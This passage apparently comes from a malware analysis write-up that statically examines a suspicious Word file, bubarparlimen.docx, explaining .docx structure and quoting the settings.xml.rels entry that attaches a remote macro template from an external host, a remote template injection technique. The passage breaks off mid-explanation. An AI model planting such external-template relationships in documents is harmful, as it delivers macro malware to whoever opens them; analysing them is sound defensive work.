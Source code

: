## 4. Static Analysis

### 4.1 bubarparlimen.docx

bubarparlimen.docx is a `.docx`. To go further into the analysis, it is necessary to understand what `.docx` structure is.

A `.docx` file is essentially a ZIP archive containing XML files and directories that define the document's content, formatting, and relationships to external or embedded resources.

The folder structure inside a .docx file looks like this: 

- **docProps**: Contains XML files that store document properties, such as the title, author, and creation date.
- **_rels**: Contains XML files that define the relationships between the various parts of the document.
- **word**: Contains the main content of the document, including the text, images, and formatting information.
- **document.xml**: Contains the actual content of the document, stored in XML format.
- **fontTable.xml**: Contains information about the fonts used in the document.
- **settings.xml**: Contains settings for the document, such as page margins and header/footer information.
- **styles.xml**: Contains the styles used in the document, such as headings and paragraph styles.
- **\[Content_Types\].xml**: Defines the types of content that are included in the document.

[reference](https://medium.com/@stefan.sommarsjo/structure-of-docx-files-xml-schema-file-organization-and-common-errors-c74d841a65e7)

The focus now is in the `word` folder. Inside the `word/_rels/settings.xml.rels` file specifically manages relationships within the document. It maps parts of the document to external resources (e.g., images, links, macros, or OLE objects). `word/_rels/settings.xml.rels` is a critical file because it provides a map of how the document interacts with its environment.

After extracting the `bubarparlimen.docx` file and going into the content of the file `word/_rels/settings.xml.rels` 
![external template dotm](images/bubarparlimen/external-template-dotm.png)

XML Explaination:
**```
```xml
Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"
```

- Indicates this is an **Attached Template** relationship, which links the document to an external template file.

```xml
Target="https://armybar.hopto.org/RemoteLoad.dotm"
```

- Specifies the external resource being referenced, in this case, a template hosted on a potentially malicious domain.

```xml
TargetMode="External"
```
